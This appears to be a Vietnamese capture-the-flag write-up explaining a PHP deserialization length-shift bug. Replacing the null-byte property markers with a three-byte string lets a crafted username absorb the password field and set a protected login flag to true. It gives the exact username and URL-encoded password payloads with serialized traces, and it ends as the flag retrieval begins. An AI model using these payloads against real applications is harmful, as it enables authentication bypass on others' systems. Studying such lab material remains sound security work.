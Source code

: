 
Dựa theo blog này: https://blog.hacktivesecurity.com/index.php/2019/10/03/rusty-joomla-rce/ khi serialized, `null_byte*null_byte` sẽ đứng trước thuộc tính protected. Đó là lý do tại sao có hàm replace `null_byte*null_byte`->`\0\0\0`

Ví dụ em nhập giá trị cho `username` là `\0\0\0`, thì serialize thuộc tính `username` sẽ có số byte là 6. Nhưng sau khi được lưu vào session và được unserialize thì `\0\0\0` sẽ được replace `null_byte*null_byte` tức là chỉ 3 byte, mà trong khi giá trị serialized vẫn đang định nghĩa là 6 bytes nên nó bắt buộc phải lấy tiếp những byte tiếp theo sau giá trị của nó (trong trường hợp này là những byte định nghĩa cho thuộc tính `password`), dẫn đến lỗi overflow xảy ra.

-> Và thế là em có thể ghi lại giá trị của `$_logged` (`isLogged`) thành True

### Khai thác:

Ý tưởng sẽ là truyền `\0\0\0` vào `username` sao cho sau khi thay thế nó sẽ chiếm thêm một số lượng byte, số lượng byte này là hợp lí để lấy luôn phần `đầu password`. Sau đó trong phần password chúng ta sẽ sửa để định nghĩa các thuộc tính _password, _logged và _email với giá trị chúng ta mong muốn, ở đây có một lứu ý là chúng ta phải tính toán và set length cho email sao cho nó chứa cả đoạn thừa ra của `đuôi password`, `_logged` và `_email`.

Username: `\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0`
Password: `"%3b"%3bs%3a12%3a"%00*%00_password"%3bs%3a3%3a"123"%3bs%3a10%3a"%00*%00_logged"%3bb%3a1%3bs%3a9%3a"%00*%00_email"%3bs%3a44%3a`

Dữ liệu đã được serialize:
`
O:4:"User":4:{s:12:"*_username";s:60:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:12:"*_password";s:77:"";";s:12:"*_password";s:3:"123";s:10:"*_logged";b:1;s:9:"*_email";s:44:";s:10:"*_logged";b:0;s:9:"*_email";s:0:"";}
`

Dữ liệu đã được replace từ `null_byte*null_byte` sang `\0\0\0`:
`
O:4:"User":4:{s:12:"\0\0\0_username";s:60:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:12:"\0\0\0_password";s:77:"";";s:12:"\0\0\0_password";s:3:"123";s:10:"\0\0\0_logged";b:1;s:9:"\0\0\0_email";s:44:";s:10:"\0\0\0_logged";b:0;s:9:"\0\0\0_email";s:0:"";}
`

Dữ liệu đã được replace từ `\0\0\0` sang `null_byte*null_byte`:
`
O:4:"User":4:{s:12:"*_username";s:60:"**********";s:12:"*_password";s:77:"";";s:12:"*_password";s:3:"123";s:10:"*_logged";b:1;s:9:"*_email";s:44:";s:10:"*_logged";b:0;s:9:"*_email";s:0:"";}
`

Dữ liệu sau khi đã được unserialize:
```
object(User)#2 (4) {   
["_username":protected]=>   string(60) "**********";s:12:"*_password";s:77:"";"   
["_password":protected]=>   string(3) "123"   
["_logged":protected]=>   bool(true)   
["_email":protected]=>   string(44) ";s:10:"
```
Đăng nhập với thông tin đăng nhập trên để nhận session sau đó vào lại trang web với session trên để lấy flag:
